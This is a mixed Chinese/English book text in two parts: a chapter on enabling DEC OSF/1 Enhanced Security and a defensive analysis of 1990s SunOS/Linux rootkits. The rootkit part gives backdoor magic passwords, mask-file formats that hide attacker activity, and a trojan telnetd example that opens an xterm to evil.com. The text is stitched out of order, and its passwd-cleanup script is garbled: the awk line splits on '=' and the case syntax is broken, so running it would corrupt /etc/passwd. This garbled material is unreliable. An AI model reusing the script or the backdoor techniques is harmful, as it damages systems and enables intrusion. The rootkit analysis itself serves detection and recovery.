d_pw_site_callout 此选项指定用于站点特定安全策略合规性决策所调用脚本的完整路径名。默认情况下，/etc/bin/pwpolicy 除了以正返回码退出外不做任何事。有关此选项的更多信息，请参阅“DEC OSF/1 Security”手册。

u_minchg#0 此选项以秒为单位指定两次密码更改之间的最短时间。如果分配值为零（0），则不强制执行最短时间限制。

u_minlen#8 此选项指定密码最小长度。

u_maxlen#12 此选项指定密码最大长度。

u_exp#0 此选项指定在成功更改密码后，帐户密码将过期的秒数。如果指定值为零（0），则密码不会过期。

## 安装增强安全子集

在启用增强安全性之前，必须加载两个增强安全软件子集。这两个子集名为 OSF C2SECxxx 和 OSF XC2SECxxx。（xxx 指定子集的版本。）要确定这些子集是否已加载，可以通过以下命令和输出进行检查。

```
# /usr/sbin/setld -i | grep -i c2sec
OSFC2SEC350 installed C2-Security (System Administration)
OSFXC2SEC350 installed C2-Security GUI (System Administration)
```

在此示例中，两个子集均已安装。如果您没有收到任何输出，或者缺少 installed 关键字，则必须使用 setld 命令从操作系统主安装介质安装这两个子集。如需帮助，请参阅与您的操作系统版本相对应的《安装指南》。

## 系统默认数据库文件格式 — 续

u_pwdepth#0 此选项指定保存旧加密密码的数量以防止重复使用。值为零（0）表示可以重用旧密码。

u_nullpw@ 此布尔选项控制用户选择空密码的能力。存在 u_nullpw 条目表示可以选择空密码；存在 u_nullpw@ 条目则表示不能。

u_genchars@ 此布尔选项控制用户为密码生成随机字符的能力。存在 u_genchars 条目表示用户可以生成由随机字符组成的密码；存在 u_genchars@ 条目表示不能。

u_genletters@ 此布尔选项控制用户为密码生成随机字母的能力。存在 u_genletters 条目表示用户可以生成由随机字母组成的密码；存在 u_genletters@ 条目表示不能。

u_maxtries#0 此选项指定在帐户被锁定之前，对该帐户连续登录失败的最大次数。将此选项设置为零（0）会禁用因登录失败而锁定帐户的功能。

u_lock@ 此布尔选项用于以管理方式锁定帐户。存在 u_lock 条目表示帐户已锁定；存在 u_lock@ 条目表示未锁定。默认数据库文件中存在 u_lock@ 条目的目的是全局指示所有帐户均未锁定，除非在各自的受保护密码数据库文件中被锁定。

t_logdelay#2 此选项指定失败登录尝试之间的秒数。此字段旨在降低终端设备上登录尝试发生的速率。

t_maxtries#10 此选项指定在终端被锁定之前，使用该终端允许的最大连续失败登录尝试次数。终端一旦被锁定，必须由授权管理员解锁。有关其他信息，请参阅 default(4) 的手册页。


## 运行 secsetup 实用程序

secsetup 实用程序是一个交互式程序，可在 DU 系统上在基本安全和增强安全之间切换。您必须准备好回答以下问题，除选择所需的系统安全级别外。

- 您是否希望禁用段共享？
- 您是否希望此时运行审计设置实用程序？

通常，除非您有特殊要求，否则这两个问题的答案均为否。有关这些选项的更多信息，请参阅 DEC OSF/1 安全手册。

以下显示了一个示例 secsetup 会话，其中安全级别从 Base 更改为 Enhanced。

```
# /usr/sbin/secsetup
Enter system security level {BASE ENHANCED ?}[ENHANCED]: <RETURN>
ENHANCED security level will take effect on the next system reboot.
Do you wish to disable segment sharing?(yes no ?)[no]: <RETURN>
Do you wish to run the audit setup utility at this time?(yes no ?)[no]: <RETURN>
Press return to continue: <RETURN>
#
```

请注意，每个提示的默认答案都在方括号中，只需按 Return 键即可选择。

## 重启系统以启用增强安全

在新的安全级别更改生效之前，必须重新启动系统。以下命令是实现此目的的一种简单方法。

```
# /sbin/shutdown -r +2 "System being rebooted to enable Enhanced Security."
```

这将在两分钟宽限时间内关闭并重新启动系统，并向任何已登录用户显示一条信息性消息。

## 调整系统默认数据库文件

系统成功重新启动后，以 root 身份登录并按如下方式对系统默认数据库文件进行之前记录的调整。

```
# cd /etc/auth/system
# cp default default.orig
# vi default (and apply desired changes)
```

## 从 /etc/passwd 中删除加密密码字符串

secsetup 实用程序已将 /etc/passwd 的密码字段中的加密密码复制到 /tcb/files/auth 层次结构下的各个用户安全数据库中。但是，secsetup 并未从 /etc/passwd 中删除加密密码。当在系统上安装增强安全时，密码字段应包含星号 (*)，因为加密密码不再存储在 /etc/passwd 中。 一个小型 Korn shell 脚本可安全地从 /etc/passwd 的密码字段中删除加密密码字符串并将其替换为星号，如清单 18.1 所示。

### 清单 18.1 remove_passwd.ksh — 一个 Korn shell 脚本，用于将 /etc/passwd 的密码字段中的加密密码字符串替换为星号。

```
#!/bin/ksh
# Short script to replace the encrypted password
# strings in /etc/passwd with an asterisk (*)

if test ! -w /etc/passwd
then
    print 'Please su to root first.'
    exit 1
fi

trap 'rm -rf /etc/ptmp ; exit 1' 1 2

if [[ `rcmgr get SECURITY` = BASE ]]
then
    print 'Security Level is not ENHANCED.'
    exit 1
fi

if mkdir /etc/ptmp
then
    :
else
    print 'The /etc/passwd file is busy. Try again later.'
    exit 1
fi
```

## 测试您的应用程序

此时，您的系统正在运行增强安全，您应在宣布成功之前适当地测试您的应用程序。在用户尝试登录并可能违反系统规则之前，请注意，如果任何用户在基本安全下的密码长于八个字符，则现在只接受前八个字符作为有效密码。例如，如果密码为 toogood2be，则用户必须仅输入 toogood2 才能成功登录。当用户在增强安全下更改其密码时，全局或用户默认值，如果不同，将决定密码长度。请确保您的用户在登录到新启用的增强安全系统之前了解此密码问题。

### 清单 18.1（续）

```
awk 'FS="=", OFS="=" {print $1,"**",$3,$4,$5,$6,$7}' /etc/passwd > \
/etc/ptmp/passwd.modified

cp /etc/ptmp/passwd.modified /etc/passwd

if [ -f /etc/passwd.pag -o -f /etc/passwd.dir ]
then
    print 'Rebuilding the password database...'
    ( cd /etc ; mkpasswd passwd )
else
    print 'The hashed password database does not exist.'
    print -n 'Do you want to create it [y]/n? '
    if read y
    then
        case "$y" in
            in [yY]* ) print 'Rebuilding the password data base...'
                        ( cd /etc ; mkpasswd passwd ) ;;
        esac
    fi
fi

rm -rf /etc/ptmp
print 'Successfully replaced encrypted passwords with asterisks'
exit 0
```


## 禁用增强安全

如果您需要禁用增强安全并返回到基础安全，步骤如下。

- 1. 以 root 身份登录。
- 2. 运行 secsetup 实用程序并选择 BASE 安全级别。
- 3. 重启系统。

这将迅速使系统恢复到基础安全，并将 /tcb/files/auth 层级中的加密密码复制到 /etc/passwd 文件中。重启系统将完成该过程。这会在您决定重新启用增强安全时保留所有增强安全文件（/etc/auth/* 和 /tcb/files/*）。

## 账户管理

UNIX 系统管理员的主要职责之一是用户账户管理。这包括账户创建、账户修改和账户删除。一旦在 DU 系统上启用了增强安全，就会提供新的实用程序，应尽可能使用它们来管理用户账户。两个主要工具 XSysAdmin 和 XIsso 都是 X Window 应用程序。不幸的是，Digital 并未提供字符单元界面来实现相同的功能。然而，账户管理也可以在不运行这些 GUI 的情况下执行，这有时可能是必要的。此外，XSysAdmin 和 XIsso 在 DU 的 v4.0 版本发布后将被单一程序 dxaccounts 取代，后者是新的通用桌面环境（CDE）账户管理工具。由于 XSysAdmin 和 XIsso 在 v4.0 以及 DU 的所有更早版本中仍然可用，我将以它们为例。

## XSysAdmin

该程序的作用是创建新用户账户、创建新组、修改新用户账户模板以及退役用户账户。

新账户是通过填写包含必要信息的对话框来创建的，例如账户名、主目录、所需 shell 等。新账户是无密码创建的。使用 passwd 命令在创建账户后为账户设置密码。新账户也是以锁定状态创建的。使用 XIsso 命令解锁账户。

账户创建也可以仍然使用基础安全命令 adduser 来完成。该命令在很大程度上是增强安全感知的，只有一个例外：在 /etc/passwd 文件的密码字段中插入字符串 Nologin，而不是星号。这并不会阻止用户账户被使用，因为当安全级别为 ENHANCED 时，/etc/passwd 文件的密码字段会被完全忽略。然而，我发现这种不一致令人困惑，所以我手动编辑 /etc/passwd 文件（通过 viwp 命令）来纠正它。您也可以在用 adduser 添加账户后再次运行 remove passwd 脚本（清单 18.1）来清理这个小问题。

我强烈建议您使用 XSysAdmin 程序或 adduser 命令在 DU 系统上创建账户，除非您对安全数据库文件的所有细节都有透彻的理解。

创建新组是通过在 XSysAdmin 新组对话框中指定组名和 GID 来完成的。可选地，可以使用基础安全命令 addgroup 来创建新组，或者超级用户可以手动编辑 /etc/group 文件以添加新组。XSysAdmin 也用于编辑新用户账户模板，该模板指定在创建新账户时使用的默认账户参数。这些参数包括密码长度、账户过期日期、一天中的时间限制等。这些参数仅为默认值，可以按账户覆盖。参数实际上存储在系统默认数据库文件 /etc/auth/system/default 中，可以由超级用户手动编辑。

最后，XSysAdmin 程序用于退役用户账户。根据 DU 增强安全所遵循的 C2 安全要求，退役用户账户而不是简单地删除它是必需的。退役账户会永久锁定账户并防止重用该账户的 UID。一旦账户被退役，该账户就无法重新启用。

基础安全命令 removeuser 将完全删除账户的所有痕迹。如果 C2 安全的严格账户退役要求不是必需的，则 removeuser 命令仍可继续用于删除用户账户。

## XIsso

该程序用于修改现有用户账户并编辑系统安全默认值。

现有账户特征可以通过 XIsso 程序的修改用户账户对话框来更改。您可以指定账户所属的组、登录参数和密码参数。这些参数存储在位于 /tcb/files/auth 下的受保护密码数据库文件中。该层级下有以单个字母命名的子目录，每个子目录都是账户名的首字母。这些子目录中的每个文件都包含单个用户账户的受保护密码条目，并且文件名与


the user account names. For example, the protected password file for root is /tcb/files/auth/r/root. These files can be manually edited by the superuser. (See the sidebar "Protected Password Authentication Database File Format" for format and field definitions.)

This also allows the system administrator to set the global system parameters of Inactivity Timeout and Account Expiration Warning. The Inactivity Timeout is the number of minutes that a logged in account can remain idle before the session is closed. If a value of 0 minutes is specified, no inactivity timeout is enabled and account sessions will not be terminated. The Account Expiration Warning parameter specifies the number of days prior to an account's expiration that warning messages will be shown to the user at login. These parameters are universal and cannot be set on a per-user basis. Both of these parameters (d_inactivity_timeout and d_pw_expire_warning) are stored in the System Default Database File, /etc/auth/system/default, and can be manually added or edited by the superuser.

## Protected Password Authentication Database File Format

An authentication file is maintained for each user account on an Enhanced Security-enabled system. These files are located under /tcb/files/auth, which is accessible only to the superuser. The encrypted password string, among other things, is stored in this file. Options specified in an individual account Protected Password file override any Global settings specified in the System Default file. The following is an example Protected Password file on a system running Enhanced Security.

```
mcheek:u_name=mcheek:u_id#247:u_oldcrypt#0:\n:u_pwd=1o2A5Adx3oXm:\n:u_succhg#82891924:u_unsucchg#829276329:\n:u_sucLog#839193127:u_suctty=tty1:\n:u_unsucLog#836691522:u_unsuctty=tty1:u_lock#:\n:chkent:
```

The format for this file is identical to the format for the System Default file. The following text describes the meanings of the example options.

mcheek This first option is simply the header that specifies the name of file for this security database and is required.

u_name=mcheek This option specifies the username for the account and must match the username in a corresponding /etc/password entry.

u_id#247 This option specifies the UID for the account and must match the UID in a corresponding /etc/password entry.

u_oldcrypt#0 This option specifies the algorithm number used to encrypt the current password.

u_pwd=1o2A5Adx3oXm This option specifies the encrypted password string for the account. (This is not an actual password.)

## Network Information Service

Another aspect of account management under Enhanced Security is the Network Information Service (NIS). NIS is a distributed system used to centralize the management of a common set of system and network files, such as the password, group, and host files. NIS allows the system administrator to manage these shared files from a single server. NIS supports both Enhanced and Base Security on Digital and non-Digital machines. I do not manage any NIS systems, so I leave it as an exercise for the reader to determine the issues of implementing Enhanced Security in an NIS environment.

## Enhanced Security Logging

One unique feature of DU is a consolidated security authentication mechanism called the Security Integration Architecture (SIA). This SIA layer isolates the security-related commands (e.g., login, su, and passwd) from the specific security mechanisms that include, in addition to Base and Enhanced Security, optional products like

## Protected Password Authentication Database File Format — continued

u_succchg#828918424 This option specifies the time of the last successful password change. The time is specified as the number of seconds since the Epoch, 00:00:00 GMT 1 Jan 1970. Obviously, this time value is not immediately useful, and in fact, this field should only be set by programs (such as passwd(1)) that can be used to change the account password.

u_unsuccchg#8299276329 This option specifies the time of the last unsuccessful password change. This field should not be manually edited.

u_succlog#839193127 This option specifies the time of the last successful login. This field should not be manually edited.

u_suctty=tty1 This option specifies the name of the terminal associated with the last successful login to the account.

u_unsuclog#838691522 This option specifies the time of the last unsuccessful login. This field should not be manually edited.

u_unsuctty=tty1 This option specifies the name of the terminal associated with the last unsuccessful login to the account.

u_lock@ This Boolean option is used to administratively lock an account. A u_lock entry indicates that the account is locked; a u_lock@ entry indicates that it is not.

For additional information, see the manpage for prpasswd(4).


DCE。你无需关心此 SIA 层，除了利用 SIA 通过 sialog 文件提供的集中式日志记录。此日志将记录所有安全事件，包括登录、密码更改和 su 的成功与失败结果。有了这一个日志文件，我就不必监控多个日志。要启用 sialog，只需使用以下命令创建日志文件即可。

```
# touch /var/adm/sialog
```

日志随后可由 SIA 写入。sialog 建议的权限为 600。通常，你希望阻止非特权用户查看 sialog 等安全日志的内容，因为日志中可能出现密码。sialog 的摘录显示了记录的事件类型。

```
SIA:EVENT Wed Jun 5 05:22:08 1996
Successful session authentication for mcheek on :0
SIA:EVENT Wed Jun 5 05:22:08 1996
Successful establishment of session
SIA:ERROR Wed Jun 5 05:24:11 1996
Failure on authentication for su from mcheek to root
SIA:EVENT Wed Jun 5 05:24:40 1996
Successful authentication for su from root to mcheek
SIA:Wed Jun 5 05:25:46 1996
Successful password change for mcheek
```

此日志将无限制地持续增长，因此必须定期手动截断。要停止记录 SIA 事件，请删除日志文件。由于 SIA 是 DU 操作系统的一部分，sialog 可与 Base 或 Enhanced Security 一起使用。

## Application Issues

系统管理员通常负责商业即用型软件的安装和配置。在启用 Enhanced Security 之前，你必须确保当前安装的任何应用程序都感知 Enhanced Security。像 Oracle 或 Informix 这样的关系数据库管理系统，如果可配置为依赖操作系统进行用户身份验证，则可能受 Enhanced Security 影响。如果此类应用程序不感知 Enhanced Security，用户登录应用程序很可能会失败。如果应用程序供应商不知道 Enhanced Security 是否会影响其产品，请缓慢实施 Enhanced Security，并在投入生产前尽可能多地测试应用程序。

你可能还必须支持内部和商业应用程序的软件开发工作。与你在系统上支持的任何软件开发人员协调 Enhanced Security 的实施，并参阅 DEC OSF/1 Security 手册的“Programmer’s Guide to Security”部分以获取详细信息。

最后一个软件问题是通常从 Internet 获得的自由软件。有许多安全相关工具和实用程序可供使用，可能支持也可能不支持 Enhanced Security。我已成功在 DU Enhanced Security 系统上安装了 sudo（由科罗拉多大学维护）和 wuarchive-ftpd（华盛顿大学 FTP 服务器）。

sudo 是一个有用的实用程序，允许超级用户授予某些用户或用户组以 root 身份运行某些或全部命令的能力，同时记录所有命令和参数。sudo v1.4 及更高版本无需修改即可支持 DU Enhanced Security。

wuarchive-ftpd 是一款替代 ftp 服务器，其对命令和文件传输的日志记录比 UNIX 厂商提供的标准 ftp 服务器更为详尽。

wuarchive-ftpd v2.4 支持 DU Enhanced Security，但只有在编译程序前对 wuarchive-ftpd 源代码应用补丁后才支持。此补丁约有 150 行，可从 ftp.mfi.com 的 /pub/sysadmin 中获得。

## Summary

成功实施 Enhanced Security 需要对环境和需求有透彻的了解、周密的规划，以及在账户管理和一般系统维护方面的持续管理责任。然而，我发现 Enhanced Security 的好处、全面审计安全事件以及更强大的身份识别和身份验证功能，远远超过了 Enhanced Security 系统的缺点。最初作为遵守企业安全标准的一种方式，显著增强了我管理系统的能力。

## References

DEC OSF/1 Security. Maynard, MA: Digital Equipment Corp.

DEC OSF/1 System Administration. Maynard, MA: Digital Equipment Corp.


## 识别和恢复 Rootkit 攻击

## David O'Brien

安装 Rootkit 是严重互联网入侵者在获得运行 SunOS v4.x UNIX 或 Slackware Linux 发行版的工作站的 root 权限后，最受欢迎的活动之一。Rootkit 的名称暗示它是一组用于获取 root 访问权限的现成攻击脚本。然而，Rootkit 实际上是一组程序，其目的是允许入侵者在不知情的 SunOS v4.x 或 Solbourne 主机上使用 /dev/nit，或使用 eth0 接口的 Linux 主机上安装和运行以太网嗅探器（一种捕获并解码网络上每个数据包的程序）。有了这个嗅探器，入侵者可以获取您最敏感的网络系统的用户 ID 和密码，包括 root。在本章中，我将讨论我分析过的各种 Rootkit 变种，如何识别和检测被攻击的机器，以及如何从攻击中恢复。

## 威胁

我追溯 Rootkit 的血统可追溯到 1994 年初。此后，它在多个 CERT 和 CIAC 咨询中被匿名提及（CERT 咨询 CA-94-01，“持续的网络监控攻击”，1994 年 2 月 3 日；CERT 咨询 CA-95-18“互联网站点的大规模攻击”，1995 年 12 月 18 日；CIAC 咨询 E-09：“网络监控攻击”，1994 年 2 月 3 日；CIAC 咨询 E-12：“网络监控攻击更新”，1994 年 3 月 18 日）甚至一则流行报纸（“计算机罪犯入侵互联网”，《亚特兰大宪法日报》，1994 年 5 月 24 日）。

自 Rootkit 引入入侵者社区以来，它已被广泛使用，其威胁不容小觑。1994 年的一份 CIAC 公告（CIAC 公告 E-12：1994 年 3 月 18 日）估计全球被攻破的账户数量超过 100,000 个。到 1996 年，这个数字要大得多。CERT 和 CIAC 继续发布关于嗅探用户 ID 和密码的流行性的定期警告。网络监控（嗅探）攻击代表着严重的互联网威胁。

典型的 Rootkit 攻击按以下步骤进行。入侵者使用被盗或容易猜到的密码登录到一台主机。然后他们通过利用 rdist、sendmail、/bin/mail、loadmodule、rpc.yppupdated、lpr 或 passwd 中的已知漏洞获得未经授权的 root 访问权限。入侵者将 Rootkit ftp 到主机，解包、编译并安装它；然后他们收集更多用户名/密码对并攻击更多主机。

在 1996 年中期，Rootkit 的唯一已知变种运行在运行 SunOS v4.x 和 Linux Slackware 发行版的主机上。然而，Rootkit 的配方相当简单。第一种成分是嗅探程序，可以用 tcpdump 或 etherfind 制作。这个专门用于记录密码的嗅探程序将以太网接口置于混杂模式，允许读取在以太网上传输的每个数据包。第二种成分是标准系统二进制文件的源代码。因此，很容易为其他 UNIX 变种编写 Rootkit 版本。我已经发现了针对 Solaris v2.x 的修改版 SunOS Rootkit 嗅探器代码。

此外，您不应认为因为您没有运行 SunOS v4.x 或 Linux 的工作站，您的网络就是安全的。Rootkit 的嗅探器针对所有 telnet、rlogin 和 ftp 会话，无论系统类型如何，其中包括所有 UNIX 变种、MS-DOS、VMS，甚至 MVS 系统。这使得您的所有网络系统都容易受到攻击——只要在通往您系统的网络路径上的某个地方有一个嗅探器就足够了。

## 被盗的贵重物品

Rootkit 的嗅探器捕获通过网络访问的账户的用户 ID 和密码。尽管网络嗅探器无论在硬件还是软件形式上已经存在一段时间了，但其输出量巨大，并且格式不佳，不利于获取用户 ID 和密码。然而，Rootkit 嗅探器的输出非常清晰简洁，过滤掉了与 telnet、rlogin 或 ftp 会话的身份验证无关的所有 TCP 数据包。如图 19.1 所示，其中 userid 和 password 代表实际数据，入侵者可以轻松获取用户 ID 和密码。此信息记录到命令行指定的文件中。入侵者随后使用后门收集日志文件。

鉴于示例输出，很容易证明 CIAC 关于全球超过 100,000 个账户被攻破的说法。Rootkit 攻击源自许多不同的国家。顺便提一下，源自被攻击的 SunOS v4.x 主机的 telnet 和 ftp 会话不会被嗅探，因为通过 /dev/nit 无法获得从主机发出的数据包。

### 图 19.1 Rootkit 嗅探器的示例输出。

```
Using logical device ie0 [/dev/nit] Output to stdout.
Log started at => Mon Nov 6 10:29:07 [pid 13146]
- - TCP/IP LOG -- TM: Mon Nov 6 10:30:50 --
PATH: distant.host.bar.edu(52864) => local.host.foo.edu(telnet)
STAT: Mon Nov 6 10:52:07, 34 pkts, 73 bytes [TH_FIN]
DATA: (255)(253)C(255)(251)(255)(250)X
: VT100(255)(240)(255)(253)^A(255)(252)^Auser id
: password
- - TCP/IP LOG -- TM: Mon Nov 6 10:35:17
PATH: distant2.bar.edu(52897) => local2.host.foo.edu(ftp)
STAT: Mon Nov 6 10:58:17, 14 pkts, 62 bytes [TH_FIN]
DATA: USER user id
: : PASS password
: :
```


## 什么是 Rootkit？

严格来说，Rootkit 的打包清单包括以下项目：

- 一个以记录密码为特化的以太网嗅探器；
- 一个带有后门的特洛伊木马登录替换程序；
- 支持程序，它们是 UNIX 实用程序的直接替换（例如，`ps`、`netstat`、`ifconfig`），这些程序可能允许某人检测到已安装的以太网嗅探器；以及
- 一个用于安装特洛伊系统程序的实用程序，使其具有与被替换文件相同的日期、权限、UID、GID 和校验和。

某些 Rootkit 变种还包括以下项目：

- `ls` 和 `du` 的替换程序；
- `in.telnetd` 的替换程序；以及
- `chfn`、`csh`、`inetd`、`top`、`rshd` 和 `syslogd` 的特洛伊木马替换程序。

## Rootkit 样本

我分析了七个不同的 SunOS Rootkit 样本和三个 Linux Rootkit 样本。SunOS 变种分为两种不同的菌株，而 Linux 变种全部属于单一菌株。

## SunOS 菌株

这两种 SunOS 菌株可以通过用于隐蔽的辅助工具、特洛伊系统程序的“智能”程度、提供的破解工具数量以及错误修复来区分。版本 1 菌株是最古老的，并且附带更多用于隐藏入侵者的辅助程序，例如 `zap`、`ls` 和 `du` 特洛伊木马替换程序。版本 2 菌株源自较旧的版本 1 菌株。版本 2 菌株修复了修改后的 SunOS 源代码中的许多错误，并改变了支持程序的构成。出于某种原因，`ls` 和 `du` 的隐蔽版本被移除了。然而，正如表 19.1 所描述的，添加了多个破解工具。

嗅探器是来自 `Phrack Magazine` 的 `Esniff.c` 程序 [第 5 卷，第 45 期，第 28 个文件中的第 5 个：1994 年 3 月 30 日（ISSN 1068-1035）]。嗅探缓冲区从 128 字节到 1024 字节不等。各种 Rootkit 将其称为 `es`、`watch` 或 `rpc.rarpd`。`login`、`ps`、`netstat` 和 `ifconfig` 都是对 Sun Microsystems 专有的 SunOS v4.1.x 源代码的破解版本。它们都读取掩码文件以指定要隐藏的输出。版本 1 菌株将文件名硬编码为 `/dev/ptyX`，其中 X 是一个小写字母（`p`、`q` 和 `r` 最受欢迎）。通常，SunOS v4.x `pty` 设备文件形式为 `ptyld`、`q`、`r` 后跟一个十六进制数字，因此很容易

注意不到这些添加的文件。在版本 2 菌株中，文件名是 Rootkit 构建时 data/ 目录中的 ns.f 和 ps.f。这些掩码文件可以非常表达性强。（请参阅侧边栏“掩码文件格式”以获取示例。）

登录特洛伊木马允许任何人在提供魔术密码时通过网络以 root 身份登录。最早的版本将此密码硬编码。我见过 D13hhf 和 fasune。较新的版本在安装 Rootkit 时会查询密码。无论使用何种方法，登录特洛伊木马二进制文件中都不包含明文密码（它可以用 strings 找到）。当密码被硬编码时，它会通过将每个字母分配给字符数组的一个元素来隐藏在 strings 的视线之外。当密码在安装期间被选择时，密码字母的按位表示会被存储在二进制文件中。特洛伊木马登录随后在运行时解密魔术密码。其中一些登录特洛伊木马还将用户名密码对存储在文件中以供以后收集。

| 工具 | 描述 |
|------|-------------|
| strobe | Julian Assange 的（又名 Proff）超优化 TCP 端口探测器。官方分发版为 ftp://suburbia.apana.org.au/pub/users/proff/original/strobe.tgz。 |
| iss.sh | Christopher Klaus 的 Internet Security Scanner v1.21。官方分发版为 ftp://ftp.iss.net/pub/iss/iss21.shar。 |
| traceroute.c | Van Jacobson 的著名 traceroute 程序。官方分发版在 ftp://ftp.ee.lbl.gov/ 中。 |
| nuke | 一个用于向指定主机发送 ICMP“主机不可达”数据包的程序。定期发布到 Usenet alt.2600 新闻组。 |
| nfs shell | Leendert van Doom 的（leendert@cs.vu.nl）提供对 NFS 文件系统访问的 shell。 |
| ypx | Rob J. Nauta 的（rob@wzv.win.tue.nl）用于在本地网络之外传输 NIS 映射的程序；发布到 Usenet alt.sources 新闻组。 |
| bootparam | 一个可用于确定默认路由器和有关引导服务器的其他信息的程序（SunOS 专有代码）。 |


The netstat Trojan hides network connections. With the network connections (e.g., telnet and ftp) hidden, the intruder is free to pick up the bounty of sniffed passwords or use your site as a springboard from which to attack other sites.

The ifconfig Trojan hides the fact that your network interface is in promiscuous mode. There is no config file associated with the ifconfig Trojan.

The ps Trojan hides running processes belonging to a specified UID, TTY, or program name. Many of the Trojans have an added "showall" option (-a) that ignores the contents of the mask file.

## Mask File Formats

### ps Mask File

The following is an example /dev/ptyp mask file.

```
0 0      # Strips all output with processes running under root
1 p0     # Strips all output associated with tty typ0
2 sniffer # Strips from output all programs with the name sniffer
```

Only the first 125 characters in a line are significant. strtok(3) is used to parse a line of input, and no error checking is done on the format or number of fields. One result is that a blank line in the file will most probably cause a segmentation violation. Only the first two fields in a line are looked at; so, even though comments are not explicitly supported, they are benign. As shown above, there are three types of specifications. A specification other than 0, 1, or 2 will be ignored. With specification 2, only the name of a program is checked, not options or arguments that would be seen with ps -w.

### netstat Mask File

The SunOS and Linux versions use slightly different encodings for masking actions. The following are examples for each type of /dev/ptypq mask file. (Note that foreign refers to connections from the local host out, and local refers to connections into the local host.)

### SunOS Rootkit

```
0 6667       # Strip all foreign irc network connections (port #)
1 23         # Strip all local telnet connections (port #)
2 192.88.209.5 # Strip all foreign connections from cert.org
3 128.120.1.  # Strip all local connections to a ucd subnet
```

Version 1 strains also include an ls and du Trojan pair to hide specified programs and directories from listings. It includes both native BSD and System V flavored versions, which are modified from the SunOS proprietary source code. Also included is zap, which zeroes out entries in utmp/wtmp/lastlog.

One SunOS Rootkit sample also includes a Trojan /usr/etc/in.telnetd. If the value of the TERM environmental variable contains %, then the contents of TERM are tokenized into the UID, the program to exec(), and the process name ps listings. An example is vt100% /usr/openwin/bin/xterm -display evil.com% csh (csh).

## Mask File Formats — continued

### Linux Rootkit

```
0 500          <- Hides all connections by uid 500
1 128.31       <- Hides all local connections from 128.31.X.X
2 128.31.39.20 <- Hides all remote connections to 128.31.39.20
3 8000         <- Hides all local connections from port 8000
4 6667         <- Hides all remote connections to port 6667
5 .term/socket <- Hides all UNIX sockets including the path./term/socket
```

The code to read in the file is the same as for ps, so the same limitations apply. As shown in the example mask files, there are multiple types of specifications. A specification other than those supported will be ignored. Not all versions support the mask file "override" option.

### ls/du Mask File

The following is an example /dev/ptyr mask file.

```
sunsnif
icmpfake
```

Only the first 125 characters in a line are significant. There is no parsing of the specification line, and the entire line (up to 125 characters) is used. So, comments are not allowable in this file. The code assumes that there will be a terminating \n (i.e., the specification line was ≥124 characters), and it is blindly removed. Thus, if there were a filename >124 characters, it could not be masked. Only filenames may be specified; specifically, UIDs and GIDs cannot be specified. This is a plus for the good guys.

### syslog Mask File

This format applies to Linux only. The following is an example /dev/ptys mask file.

```
evil.com
123.100.101.202
rshd
```


## Linux 变种

我见过的最古老的 Linux 版本的 Rootkit 日期为 1994 年 10 月 11 日，且不完整。它仅包含 login、ps 和 netstat 木马。login 木马的魔术密码是 whoot!。netstat 木马增强了基于 UID 和 UNIX 套接字路径隐藏连接的能力。

下一个版本，自称为“Linux Rootkit II version 1.0”，于 1996 年 4 月 1 日发布，完全重写并借鉴了 SunOS Rootkit 的思路和灵感。此版本在隐蔽性方面覆盖最广。Linux Rootkit II version 1.1 紧随其后于 1996 年 4 月 20 日发布。它修复了一些错误并添加了一个更简单的嗅探器，更适合后台使用，一个“将 shell 绑定到套接字”的实用程序，以及用于删除（而非清零）utmp/wtmp/lastlog 条目的实用程序。Linux Rootkit 现在是一个非常完整且危险的软件包。与 SunOS Rootkit 变种一样，此版本包含 chfn、chsh、inetd、top、rshd 和 syslogd 的木马版本。其中许多木马识别魔术密码，默认是 lrk r0x，且一些识别特殊用户 rewT。表 19.2 包含 Linux Rootkit 中的程序列表。

## 检测 Rootkit

除非入侵者未能很好地从日志文件中清除其访问痕迹，否则攻击很难被检测到。大多数系统管理员直到被其他站点的人联系或磁盘因嗅探器的日志而开始填满时，才知道自己的站点已被入侵。如果你无法解释磁盘使用情况，你应该感到警惕，尤其是在 du 和 ls 木马存在的背景下。

一旦怀疑机器遭受了 Rootkit 攻击，你可以做几件事来验证这一点。最简单的方法是尝试使用 -/ 选项运行 du、ls、ps 和 netstat。如果其中任何一个接受此选项，则说明已安装了 Rootkit。此外，掩码列表处理中没有短路；即使使用掩码规范命中，检查仍会继续。因此，较大的规范列表可能会导致程序出现明显的减速。在 /dev 中使用 file 找到的文本文件（尤其是名称形式为 /dev/pty 且没有设备号的文件）也值得怀疑。

验证入侵的另一种方法是使用其完整性已知的系统程序。将 ps、ls、du、ifconfig 和 netstat 的原始副本放在写保护软盘上是个好主意。这些可在硬盘上的系统程序完整性存疑的情况下使用。在以下文本中描述的这些情况下，还可以使用许多第三方（即非标准）实用程序。

### top(1)
一个系统监控实用程序，结合了 ps(1)、uptime(1)、renice(8) 和 kill(1) 的功能。它可以在 ftp://eecs.nwu.edu/pub/top/ 找到，并可用于可靠地检查 SunOS 主机上是否存在 rogue 程序，因为 SunOS 版本的 Rootkit 不包含 top(1)。

### lsof
List Open Files (ftp://vic.cc.purdue.edu/pub/tools/unix/lsof/) 列出所有打开的文件，包括打开的网络套接字。

### 表 19.2 Linux Rootkit II v1.0 中的程序。

| Tool | Description |
|------|-------------|
| chfn | 如果在提示输入姓名时输入魔术密码，你将被放入 uid 0 /bin/sh shell，而不是被提示输入密码以提交对你的 finger 信息的任何更改。 |
| chsh | 如果在提示输入新 shell 时输入魔术密码，你将被放入 uid 0 /bin/sh shell。 |
| inetd | 当你连接到 rfe 服务（Radio Free Ethernet）时运行 /bin/sh -i 作为服务器。许多 Linux 发行版在 /etc/services 中不列出此服务，且 Rootkit 的安装程序也不会添加它。 |
| login | 允许在关闭所有日志记录的情况下以 root 登录。有两种触发方式：魔术用户 ID rewT，允许即使在未受保护的终端上也以 root 登录且用户永远不会被查询密码；或任何用户 ID 配合魔术密码 lrkroX。 |
| ls/du | 这些与 SunOS 附加组件相同。注意，由于 Linux 发行版是 POSIX，使用 fnmatch() 而不是 strcmp() 来允许掩码文件中使用正则表达式将非常容易（GNU 的 ls，即 Linux 中使用的 ls，已经使用 fnmatch）。 |
| ifconfig | 这与 SunOS 版本相同。 |
| netstat | 基于 UID 和 UNIX 套接字路径添加了掩码。netstat 包含“showall”(-a) 选项。 |
| passwd | 如果输入 Rootkit 魔术密码而不是用户密码，则以 UID、EUID、GID 和 EGID 设为 0 的方式运行 /bin/bash。 |
| ps | 这与 SunOS 版本相同。 |


- **tcplist**：以漂亮的表格列出所有打开的网络连接，包括协议/端口号、远程主机名、本地服务器/客户端的 UID，以及对于运行 ident 服务器的远程站点的远程用户（ftp://ftp.cdf.toronto.edu/pub/tcplist）。

